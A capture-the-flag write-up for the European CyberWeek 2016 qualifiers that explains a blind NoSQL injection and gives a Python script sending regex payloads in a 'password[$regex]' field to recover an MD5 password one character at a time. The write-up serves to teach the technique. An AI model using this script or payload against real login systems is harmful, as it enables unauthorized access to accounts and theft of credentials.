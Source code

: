 # European CyberWeek 2016 Quals - Pas seulement BSON
### Web - 100 pts

The title makes us thing of NoSQL. First challenge was blind SQL injection, let's try blind NoSQL injection ! We already knew the length because the password is a MD5. And it works fine with the following code :

```python
import requests
import re
import string
 
cookies=dict(session='XXXXXX')
 
length=0
longueur=32
caractere=32
final_pass=""
trouve = 0
 
while(trouve==0):
	for char in "0123456789abcdef":
		password= final_pass+char+".{"+str(longueur-length-1)+"}"
		requette={'password[$regex]':password,'nonce':"XXXXXXX"}
		resultat=requests.post('https://challenge-ecw.fr/chals/web200', cookies=cookies, data=requette).content
		print password
		res=re.search("Authentification valide",resultat)
		if res is not None:
			length += 1
			if (length!=longueur):
				final_pass+=char
				caractere=32
				break;
			else:
				final_pass+=char
				trouve=1
				break;
 
print ("Le flag est : %s " % final_pass)
```

This code is ugly but I was kind of lazy to rewrite it because it is available all over internet easily. The main goal is to understand what it does. We just get the password by checking if the condition is met on the REGEX we put in the password field.